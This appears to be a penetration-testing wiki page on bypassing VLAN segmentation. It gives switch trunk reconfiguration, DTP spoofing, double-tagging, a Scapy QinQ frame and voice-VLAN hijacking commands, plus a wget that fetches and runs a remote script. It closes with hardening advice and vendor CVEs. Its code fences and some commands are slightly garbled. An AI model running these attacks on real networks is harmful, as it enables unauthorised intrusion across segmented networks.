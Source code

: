 # Lateral VLAN Segmentation Bypass


If direct access to a switch is available, VLAN segmentation can be bypassed. This involves reconfiguring the connected port to trunk mode, establishing virtual interfaces for target VLANs, and setting IP addresses, either dynamically (DHCP) or statically, depending on the scenario (**for further details check [[https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9)|https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9]].**

Initially, identification of the specific connected port is required. This can typically be accomplished through CDP messages, or by searching for the port via the **include** mask.

**If CDP is not operational, port identification can be attempted by searching for the MAC address**:

```
SW1(config)# show mac address-table | include 0050.0000.0500
```
```
Prior to switching to trunk mode, a list of existing VLANs should be compiled, and their identifiers determined. These identifiers are then assigned to the interface, enabling access to various VLANs through the trunk. The port in use, for instance, is associated with VLAN 10.

```
SW1# show vlan brief
```
```
**Transitioning to trunk mode entails entering interface configuration mode**:

```
SW1(config)# interface GigabitEthernet 0/2
SW1(config-if)# switchport trunk encapsulation dot1q
SW1(config-if)# switchport mode trunk
```
```
Switching to trunk mode will temporarily disrupt connectivity, but this can be restored subsequently.

Virtual interfaces are then created, assigned VLAN IDs, and activated:

```bash
# Legacy (vconfig) – still works but deprecated in modern kernels
sudo vconfig add eth0 10
sudo vconfig add eth0 20
sudo vconfig add eth0 50
sudo vconfig add eth0 60
sudo ifconfig eth0.10 up
sudo ifconfig eth0.20 up
sudo ifconfig eth0.50 up
sudo ifconfig eth0.60 up

# Modern (ip-link – preferred)
sudo modprobe 8021q
sudo ip link add link eth0 name eth0.10 type vlan id 10
sudo ip link add link eth0 name eth0.20 type vlan id 20
sudo ip link set eth0.10 up
sudo ip link set eth0.20 up
sudo dhclient -v eth0.50
sudo dhclient -v eth0.60
```
```
Subsequently, an address request is made via DHCP. Alternatively, in cases where DHCP is not viable, addresses can be manually configured:

```bash
sudo dhclient -v eth0.10
sudo dhclient -v eth0.20
```
```
Example for manually setting a static IP address on an interface (VLAN 10):

```bash
sudo ifconfig eth0.10 10.10.10.66 netmask 255.255.255.0
# or
sudo ip addr add 10.10.10.66/24 dev eth0.10
```
```
Connectivity is tested by initiating ICMP requests to the default gateways for VLANs 10, 20, 50, and 60.

Ultimately, this process enables bypassing of VLAN segmentation, thereby facilitating unrestricted access to any VLAN network, and setting the stage for subsequent actions.

---

## Other VLAN-Hopping Techniques (no privileged switch CLI)

The previous method assumes authenticated console or Telnet/SSH access to the switch.  In real-world engagements the attacker is usually connected to a **regular access port**.  The following Layer-2 tricks often let you pivot laterally without ever logging into the switch OS:

### 1. Switch-Spoofing with Dynamic Trunking Protocol (DTP)

Cisco switches that keep DTP enabled will happily negotiate a trunk if the peer claims to be a switch.  Crafting a single **DTP “desirable”** or **“trunk”** frame converts the access port into an 802.1Q trunk that carries *all* allowed VLANs.

*Yersinia* and several PoCs automate the process:

```bash
# Become a trunk using Yersinia (GUI)
sudo yersinia -G          # Launch GUI → Launch attack → DTP → enabling trunking

# Python PoC (dtp-spoof)
git clone https://github.com/fleetcaptain/dtp-spoof.git
sudo python3 dtp-spoof/dtp-spoof.py -i eth0 --desirable
```
```
Recon helper (passively fingerprint the port’s DTP state):

```bash
sudo modprobe 8021q
sudo ip link add link eth0 name eth0.30 type vlan id 30
sudo ip addr add 10.10.30.66/24 dev eth0.30
sudo ip link set eth0.30 up

# or

wget https://gist.githubusercontent.com/mgeeky/3f678d385984ba0377299a844fb793fa/raw/dtpscan.py
sudo python3 dtpscan.py -i eth0
```
```
Once the port switches to trunk you can create 802.1Q sub-interfaces and pivot exactly as shown in the previous section.

### 2. Double-Tagging (Native-VLAN Abuse)

If the attacker sits on the **native (untagged) VLAN**, a crafted frame with *two* 802.1Q headers can hop to a second VLAN even when the port is locked in access mode.  Tooling such as **VLANPWN DoubleTagging.py** (2022-2025 refresh) automates the injection:

```bash
python3 DoubleTagging.py \
        --interface eth0 \
        --nativevlan 1 \
        --targetvlan 20 \
        --victim 10.10.20.24 \
        --attacker 10.10.1.54
```
```
### 3. QinQ (802.1ad) Stacking

Many enterprise cores support *Q-in-Q* service-provider encapsulation.  Where permitted, an attacker can tunnel arbitrary 802.1Q-tagged traffic inside a provider (S-tag) to cross security zones.  Capture for ethertype `0x88a8` and attempt to pop the outer tag with Scapy:

```python
from scapy.all import *
outer = 100      # Service tag
inner = 30       # Customer / target VLAN
payload = Ether(dst="ff:ff:ff:ff:ff:ff")/Dot1Q(vlan=inner)/IP(dst="10.10.30.1")/ICMP()
frame = Dot1Q(type=0x88a8, vlan=outer)/payload
sendp(frame, iface="eth0")
```
```
### 4. Voice-VLAN Hijacking via LLDP/CDP (IP-Phone Spoofing)

Corporate access ports often sit in an *“access + voice”* configuration: untagged data VLAN for the workstation and a tagged voice VLAN advertised through CDP or LLDP-MED.  By impersonating an IP phone the attacker can automatically discover and hop into the VoIP VLAN—even when DTP is disabled.

*VoIP Hopper* (packaged in Kali 2025.2) supports CDP, DHCP options **176/242**, and full LLDP-MED spoofing:

```bash
# One-shot discovery & hop
sudo voiphopper -i eth0 -f cisco-7940

# Interactive Assessment Mode (passive sniff → auto-hop when VVID learnt)
sudo voiphopper -i eth0 -z

# Result: new sub-interface eth0.<VVID> with a DHCP or static address inside the voice VLAN
```
```
The technique bypasses data/voice separation and is extremely common on enterprise edge switches in 2025 because LLDP auto-policy is enabled by default on many models .

---

## Defensive Recommendations

1. Disable DTP on all user-facing ports: `switchport mode access` + `switchport nonegotiate`.
2. Change the native VLAN on every trunk to an **unused, black-hole VLAN** and tag it:  `vlan dot1q tag native`.
3. Prune unnecessary VLANs on trunks: `switchport trunk allowed vlan 10,20`.
4. Enforce port security, DHCP snooping, dynamic ARP inspection **and 802.1X** to limit rogue Layer-2 activity.
5. Disable LLDP-MED auto voice policies (or lock them to authenticated MAC OUIs) if IP-phone spoofing isn’t required.
6. Prefer private-VLANs or L3 segmentation instead of relying solely on 802.1Q separation.

---

## Real-World Vendor Vulnerabilities (2022-2024)

Even a perfectly hardened switch configuration can still be undermined by firmware bugs.  Recent examples include:

* **CVE-2022-20728† – Cisco Aironet/Catalyst Access Points** allow injection from the native VLAN into non-native WLAN VLANs, bypassing wired/wireless segmentation .
* **CVE-2024-20465 (Cisco IOS Industrial Ethernet)** permits ACL bypass on SVIs after toggling Resilient Ethernet Protocol, leaking traffic between VRFs/VLANs.  Patch 17.9.5 or later.

Always monitor the vendor advisories for VLAN-related bypass/ACL issues and keep infrastructure images current.

---

## References

- [[https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9|https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9]]
- VLANPWN attack toolkit – <https://github.com/casterbytethrowback/VLANPWN>
- Twingate "What is VLAN Hopping?" (Aug 2024) – <https://www.twingate.com/blog/glossary/vlan%20hopping>
- VoIP Hopper project – <https://github.com/hmgh0st/voiphopper>
- Cisco Advisory “cisco-sa-apvlan-TDTtb4FY” – <https://sec.cloudapps.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-apvlan-TDTtb4FY>

